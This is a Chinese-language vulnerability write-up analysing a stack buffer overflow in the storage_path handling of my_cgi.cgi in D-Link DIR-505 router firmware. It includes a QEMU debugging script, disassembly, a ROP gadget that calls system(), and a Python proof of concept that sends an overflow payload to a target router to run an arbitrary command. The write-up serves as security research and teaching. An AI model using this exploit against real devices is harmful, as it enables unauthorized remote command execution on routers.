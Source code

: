 # 一：固件分析
## 固件下载
```
ftp://ftp2.dlink.com/PRODUCTS/DIR-505/REVA/DIR505_FIRMWARE_1.08B10.ZIP

```
## 漏洞描述



## 漏洞的成因分析
### 1:定位漏洞文件
```
//切换到固件根目录
find ./ -name '*.cgi'  //随后找到漏洞文件my_cgi.cgi
```
### 2:定位漏洞位置
#### 根据漏洞描述，my_cgi.cgi在处理storage_path的时候出现了问题，我们采用搜串的方法找到storage_path，之后交叉引用查看所有引用位置。结果发现存在八处位置对其进行了引用，当然可以一个个去看，这里建议可以使用Ghidra进行反编译查看，肯能会加快分析的速度。第二种方法就是书中说的，用猜的，get_input_entries这个函数名结合漏洞描述，确实很值得怀疑。下面先用Ghidra简单的看下。
![DIR505](DIR505_get_input_entries.png)

#### 使用书中的脚本文件验证猜测
```
#!/bin/bash
# run_cgi.sh
INPUT=`python -c "print 'storage_path='+'B'*477472+'A'*4"`
LEN=$(echo -n "$INPUT" | wc -c)
echo $LEN
PORT="1234"
cp $(which qemu-mips-static) ./qemu
echo "$INPUT" | chroot ./ ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="multipart/form-data" -E SCRIPT_NAME="common" -E REQUEST_METHOD="POST" -E REQUEST_URI="/my_cgi.cgi" -g $PORT ./usr/bin/my_cgi.cgi
echo 'run ok'
rm -f ./qemu
```
需要注意的就是my_cgi.cgi使用的是大端序，所以我们在复制qemu的时候要选用大端文件。对于书中描述的SCRIPT_NAME不能为HNAP1和CONTENT_TYPE不能为multipart/form-data的说明一知半解，但是通过动态调试证实确实如此，在main函数中分别有对其的判断，如果是这两个值将不会对storage_path做出内存拷贝的行为，自然就不会有越界的漏洞出现。

#### 具体分析get_input_entries函数
综上所述，我们已经了解到漏洞函数是get_input_entries，首先我们先分析下此函数的参数是什么？下面是main函数调用get_input_entries的位置：
```
.text:0040A60C                 addiu   $s0, $sp, 0x749A0+var_74948
.text:0040A610                 la      $t9, memset
.text:0040A614                 li      $a2, 0x7490A     # n
.text:0040A61C                 move    $a0, $s0         # s
.text:0040A620                 jalr    $t9 ; memset
.text:0040A624                 move    $a1, $zero       # c
.text:0040A628                 lw      $gp, 0x749A0+var_74988($sp)
.text:0040A62C                 move    $a0, $s0         # pbuffer
.text:0040A630                 la      $t9, get_input_entries
.text:0040A634                 nop
.text:0040A638                 jalr    $t9 ; get_input_entries
.text:0040A63C                 move    $a1, $s2

```
从这段代码可以看出先使用memset初始化了一个指定大小的堆栈空间（应该是个局部变量数组），之后将其作为第一个参数传入函数get_input_entries，至于第二个参数是什么，我是采用调试的方法得到其就是我们传入的storage_path的长度，这里漏洞成因就初步展现了，由于这个空间是指定大小0x7490A，而storage_path是利用者可控的，如果将storage_path中的内容全部转存到堆栈空间中就有可能会导致访问越界。

## 漏洞利用
本次采用的漏洞利用方式依然是System/Exec，这里程序由于使用的是字节转储到堆栈中的方式，而其转储的长度是指定的CONTENT_LENTH,所以不用担心0x00造成的截断，构造ROP的时候直接在主模块查找即可。
### 构造ROP
在主模块搜索对system函数的调用，发现00405B1C处符合从堆栈中取值并随后调用system函数的gadgets。
```
.text:00405B1C                 la      $t9, system
.text:00405B20                 la      $s1, 0x440000
.text:00405B24                 jalr    $t9 ; system
.text:00405B28                 addiu   $a0, $sp, 0x78+var_50  # command
```
最终确定ROP链调用如下：

![DIR505](DIR-505_ROP.png)

### 最终POC
```
#!/usr/bin/env python
import sys
import urllib2
try:
    target=sys.argv[1]
    command=sys.argv[2]
except:
    print "Usage:%s<target><command>" % sys.argv[0]
    sys.exit(1)
url="http://%s/my_cgi.cgi" % target
buf="storage_path="
buf+="D"*477472
buf+="\x00\x40\x5b\x1c"
buf+="E"*0x28
buf+=command
buf+="\x00"
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read()

```
### 测试
本次由于在模拟路由器运行的时候，firmadyne给出的网关始终登不上去，所以本次测试未果，但是大致的漏洞原理我们已经掌握！
